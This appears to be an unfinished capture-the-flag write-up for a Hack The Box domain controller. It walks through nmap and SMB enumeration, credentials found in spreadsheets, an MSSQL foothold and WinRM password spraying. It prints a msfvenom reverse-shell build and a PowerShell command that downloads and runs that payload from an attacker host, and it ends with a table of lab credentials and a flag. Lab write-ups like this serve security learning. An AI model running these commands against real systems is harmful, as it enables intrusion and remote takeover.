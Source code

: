 # Intro

# Enumeration

## Nmap

Check all open ports
```bash
 nmap -sS -p- -vv -min-rate 10000 -oA ./nmap/massive_scan 10.129.232.128  
```

- **min-rate 10000**: means that we send 10000 packets for second 
- **-p-**: Scan all 65,535 ports
- **-sS**: **SYN** scan is a stealth scan that check if a TCP port is open sending a SYN packet. If the target respond with `SYN-ACK` the port is open instance if respond with `RST` is closed. This scan **doesn't** complete a TCP handshake this reduce the noise and logging, this allow us to hide from **IDS** or **firewall**

Extract all ports from `.gnamp` file using `grep` and save all in **$ports** variable
```bash
ports=$(grep "Ports:" nmap/massive_scan.gnmap | grep -oP '\d+(?=/open/tcp)' | paste -sd,)
```

now i perform a more deep scan only on open ports
```bash
sudo nmap -sS -sC -p $ports 10.129.232.128 -oA ./nmap/target_scan

PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
|_ssl-date: 2025-07-21T13:52:30+00:00; +1d00h02m07s from scanner time.
445/tcp   open  microsoft-ds
636/tcp   open  ldapssl
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.sequel.htb, DNS:sequel.htb, DNS:SEQUEL
| Not valid before: 2025-06-26T11:46:45
|_Not valid after:  2124-06-08T17:00:40
1433/tcp  open  ms-sql-s
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-07-21T13:21:36
|_Not valid after:  2055-07-21T13:21:36
| ms-sql-info: 
|   10.129.232.128:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.232.128:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-07-21T13:52:30+00:00; +1d00h02m06s from scanner time.
3268/tcp  open  globalcatLDAP
5985/tcp  open  wsman
49664/tcp open  unknown
49665/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49693/tcp open  unknown
49695/tcp open  unknown
49726/tcp open  unknown
49805/tcp open  unknown

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1d00h02m06s, deviation: 0s, median: 1d00h02m05s
| smb2-time: 
|   date: 2025-07-21T13:51:33
|_  start_date: N/A

```

We have found:
- **Microsoft SQL Server 2019 RTM** on port **1433** 
- The **SMB** share port on **445**
- The domain is **sequel.htb**  the computer name is **DC01** and the FQN is **DC01.sequel.htb**. I have added this information on my hotsts file 
## Enumerate SMB folders
The organization give use the rose's credentials. We can use that to enumerate the shares.

```bash
smbmap -H DC01.sequel.htb -u rose -p 'KxEPkKe6R8su'
```

![](../../../../Assest/Pasted%20image%2020250720160721.png)

The **Accounting Department** is a non standard folder so we can check what we have here. Connect to the SMB  share withe `smbclient`
```
smbclient "//DC01.sequel.htb/Accounting Department" -U rose --password 'KxEPkKe6R8su'
```

To download all content in the folder
```bash
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```
![](../../../../Assest/Pasted%20image%2020250720161945.png)
We have two Excels (disgusting) files.
![](../../../../Assest/Pasted%20image%2020250721002832.png)
I try to open this to files but seams are corrupted. Indeed the magic bytes are not the corresponded bytes of xlsx.. i ha try to modify the uncorrected byte but still not worked. So i have decide to convert the Shitexl in to CSV file.

In the `Accounts` file we have different password
![](../../../../Assest/Pasted%20image%2020250721003252.png)


# Foothold

## MSSQL
With the previously founded credential we have access to MSSQL for `sa@sequel.htb`  user
![](../../../../Assest/Pasted%20image%2020250721004055.png)
- `local-auth`: This because the user is not in the domain. Is a local user of DC01 computer.

Now my idea is to craft a meterpreter shell using `msfvenom` and download in the target machine through power-shell command. First all i need to check the arch of the target. We can do with `systeminfo` command on windows.

![](../../../../Assest/Pasted%20image%2020250721004948.png)
- with the `-X` flag we can run PS code. 

Create a meterpreter shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=667 -f exe -o meterpreter.exe
```

Now setup the listener on `msfconsole` using `multi/handler` module.

```bash
netexec mssql DC01.sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --local-auth -X "powershell -c \"mkdir C:\\TEMP; Invoke-WebRequest -Uri http://10.10.14.85:8000/meterpreter.exe -OutFile C:\\TEMP\\ciccio.exe; Start-Process C:\\TEMP\\ciccio.exe\"" --verbose
```

![](../../../../Assest/Pasted%20image%2020250721011545.png)

!TODO: explain the powershell script

![](../../../../Assest/Pasted%20image%2020250721011531.png)

Now under the  `C:\SQL2019\ExpressAdv_ENU` installation folder of MSSQL we can see the `sql-Configuration.INI` file that contains `sql_svc` user's credentials.

![](../../../../Assest/Pasted%20image%2020250721012901.png)
!TODO: How to create a users list
!TODO: spray attack with founded password (i cant log in with `sql_svc` user)
![](../../../../Assest/Pasted%20image%2020250724205831.png)


As we see during the port scanning  the `5985` port is open. This port typically is used by the [`winrm` service](https://www.speedguide.net/port.php?port=5985).  we can try to brute force our users list with the password founded in the SQL config file
```bash
netexec winrm DC01.sequel.htb -u users -p 'WqSZAF6CysDQbGb3' -d sequel --continue-on-success --verbose
```
![](../../../../Assest/Pasted%20image%2020250724210228.png)
The `ryan` user has reused the  `WqSZAF6CysDQbGb3`. We can access through `evil-winrm` on the **DC01.sequel.htb** as `ryan` user an take the first flag under the desktop.

```bash
evil-winrm -i DC01.sequel.htb -u 'SEQUEL\ryan' -p 'WqSZAF6CysDQbGb3'
```
![](../../../../Assest/Pasted%20image%2020250724210452.png)

# Privilege Escalation

![](../../../../Assest/Pasted%20image%2020250724230053.png)


![](../../../../Assest/Pasted%20image%2020250724230456.png)


!TODO: Reset password; and check vulnerable template 
# Loot

## Credentials

| user           | pwd              |
| -------------- | ---------------- |
| rose           | KxEPkKe6R8su     |
| sa@sequel.htb  | MSSQLP@ssw0rd!   |
| SEQUEL\sql_svc | WqSZAF6CysDQbGb3 |
| SEQUEL\ryan    | WqSZAF6CysDQbGb3 |

## Flags

| name     | falg                             |
| -------- | -------------------------------- |
| user.txt | b3370e6499147f8772878b0bc36294c0 |
